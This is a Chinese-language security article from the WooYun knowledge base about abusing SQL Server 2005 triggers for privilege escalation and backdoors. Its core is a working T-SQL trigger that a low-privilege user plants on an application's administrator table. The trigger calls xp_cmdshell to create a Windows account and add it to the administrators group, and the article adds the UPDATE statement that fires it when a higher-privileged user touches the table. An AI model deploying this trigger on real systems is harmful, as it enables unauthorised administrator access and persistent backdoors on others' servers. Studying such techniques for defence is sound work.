







# SqlServer 2005 Trigger

2014/11/02 13:23 | [darksn0w](http://drops.wooyun.org/author/darksn0w "由 darksn0w 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [数据库安全](http://drops.wooyun.org/category/database "查看 数据库安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x01 什么是触发器：

* * *

触发器对表进行插入、更新、删除的时候会自动执行的特殊存储过程。触发器一般用在 check 约束更加复杂的约束上面。触发器和普通的存储过程的区别是：触发器是当对某一个表进行操作。诸如：update、insert、delete 这些操作的时候，系统会自动调用执行该表上对应的触发器。SQL Server 2005 中触发器可以分为两类：DML 触发器和 DDL 触发器，其中 DDL 触发器它们会影响多种数据定义语言语句而激发，这些语句有 create、alter、drop 语句。

## 0x02 问题描述：

* * *

a)通过 Sqlserver 的触发器，可以利用执行者的权限执行自定义的命令。

b)渗透过程中可能利用的触发器场景：在设置好触发器以后，等待、诱使高权限用户去触发这个触发器，来实现入侵、提权、留后门等目的。

c)Sqlserver 的触发器可以分为两类：DML 触发器(After insert，After delete，After update 和 instead of)和 DDL 触发器（for）。

实验环境： Win2003x86 && SqlServer 2005，默认安装 Sqlserver，安装一个开源应用 siteserver，并建立 test 用户，不给予服务器角色，数据库角色仅给予 dbo 和 public 权限。并将 test 库与 test 用户相互映射。SqlServer 的 xp_cmdshell 已经被恢复。

实验过程： a)使用 test 用户建立触发器语句：

```
SET ANSI_NULLS ON
GO
SET QUOTED_IDENTIFIER ON
GO                             --这些是 SQL-92 设置语句，使 mssql 遵从 SQL-92 规则。
CREATE TRIGGER test
   ON bairong_Administrator
   AFTER UPDATE           /*建立一个作用于表 bairong_Administrator 的、
                            类型为 After update 的、名为 test 的触发器*/
AS 
BEGIN
    --EXECUTE SP_ADDEXTENDEDPROC 'MASTER.DBO.XP_CMDSHELL','XPLOG70.DLL'
           EXECUTE MASTER.DBO.XP_CMDSHELL 'net user STD 123456 /add'
    EXECUTE MASTER.DBO.XP_CMDSHELL 'net localgroup administrators STD /add'
           /*默认格式 begin 为开头加上触发后执行的语句,这里是利用储存过程添加系统账号。*/
END
GO

```



b)执行 UPDATE 操作，是触发器执行：

1)使用 UPDATE 语句来触发触发器：

```
UPDATE bairong_Administrator SET Email='STD@nsfocus.com' WHERE UserName='admin';

```

使用 test 用户执行：







2)使用 sa 用户执行：







那么这就产生一个问题了，如何利用被动触发留后门或渗透攻击。

版权声明：未经授权禁止转载 [darksn0w](http://drops.wooyun.org/author/darksn0w "由 darksn0w 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [利用 insert，update 和 delete 注入获取数据](http://drops.wooyun.org/tips/2078)
*   [Mysql Trigger](http://drops.wooyun.org/tips/3435)
*   [域内渗透基本技巧](http://drops.wooyun.org/tips/421)
*   [使用 SQLMAP 对网站和数据库进行 SQL 注入攻击](http://drops.wooyun.org/tips/2113)
*   [MongoDB 安全配置](http://drops.wooyun.org/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8/2470)
*   [Webscan360 的防御与绕过](http://drops.wooyun.org/tips/3790)